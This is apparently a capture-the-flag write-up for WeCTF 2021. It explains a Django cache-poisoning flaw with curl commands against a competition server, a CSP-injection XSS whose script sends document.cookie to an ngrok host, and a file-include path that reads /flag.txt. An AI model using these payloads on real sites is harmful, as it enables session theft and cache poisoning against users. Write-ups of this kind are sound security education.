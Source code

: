 # WeCTF 2021

[WeCTF 2021 Github REPO](https://github.com/wectf/2021)

## Cache

Two problem from the implementation. According to the documentation of [Django re_path](https://docs.djangoproject.com/en/3.2/ref/urls/#re-path), the parameter should be a regular expression. Matching with `"flag"` actually means that **path contains "flag" will trigger the handler**, e.g `/sdfafds/flag`, `/flag_custom.css`. Secondly, cache implementation is based on user_provided url **, but cookie content is not a cache key**. This opening a opportunity for cache poisoning attack.

```shell
# Admin view the page
curl -X GET --cookie "token=CroRQgDwMmJdybKa" "http://140.113.194.71:4002/flag_RetrOisHere.css"

# Attacker view the page
curl -X GET "http://140.113.194.71:4002/flag_RetrOisHere.css"
```

## CSP1

The app is vulnerability to csp policy injection. Except `connect-src`, other policies can be modified. Pair with xss, we can achieve cookie exfiltration.

```html
<!-- Payload -->
<img src="http://140.113.42.242; script-src 'unsafe-inline' 9a4c-140-113-229-111.ngrok.io">

<script>
  let sc = document.createElement("script")
  sc.src = "http://9a4c-140-113-229-111.ngrok.io/?coo=" + document.cookie

  document.body.appendChild(sc)
</script>
```

## Include

url: `/?🤯=/flag.txt`

## CSP 2


